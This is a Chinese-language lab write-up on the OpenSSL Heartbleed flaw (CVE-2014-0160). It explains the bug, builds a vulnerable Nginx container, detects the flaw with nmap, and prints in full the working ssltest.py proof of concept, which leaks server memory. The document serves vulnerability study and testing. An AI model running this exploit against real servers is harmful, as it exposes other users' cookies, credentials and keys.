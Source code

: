 # OpenSSL 心脏出血漏洞 CVE-2014-0160

## 漏洞描述

在OpenSSL1.0.1版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于ssl/dl_both.c文件中。OpenSSL Heartbleed模块存在一个BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据，会导致memcpy把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。

心脏出血是一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。

参考链接：

- https://heartbleed.com/
- https://filippo.io/Heartbleed

## 环境搭建

Vulhub运行如下命令启动一个使用了OpenSSL 1.0.1c的Nginx服务器：

```
docker-compose up -d
```

环境启动后，访问`https://your-ip`即可查看到hello页面。

![image-20220224095222840](images/202202240952891.png)

## 漏洞复现

通过Nmap进行漏洞检测：

```shell
nmap -sV -p 443 --script ssl-heartbleed.nse your-ip
```

![image-20220224102304171](images/202202241023370.png)

Python运行[ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/heartbleed/ssltest.py)，拿到敏感数据（可能包含Cookie）。

![image-20220224104055810](images/202202241040993.png)

## 漏洞POC

ssltest.py：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import binascii
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return binascii.unhexlify(x.replace(' ', '').replace('\n', ''))

hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s: bytes):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join((chr(c) if 32 <= c <= 126 else '.' )for c in lin)
        print('  %04x: %-48s %s' % (b, hxdat, pdat))

    print("")

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print('Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print('Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print(' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print('No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print('Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print('WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print('Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print('Received alert:')
            hexdump(pay)
            print('Server returned error, likely not vulnerable')
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print('Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print('Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print('Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print('Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

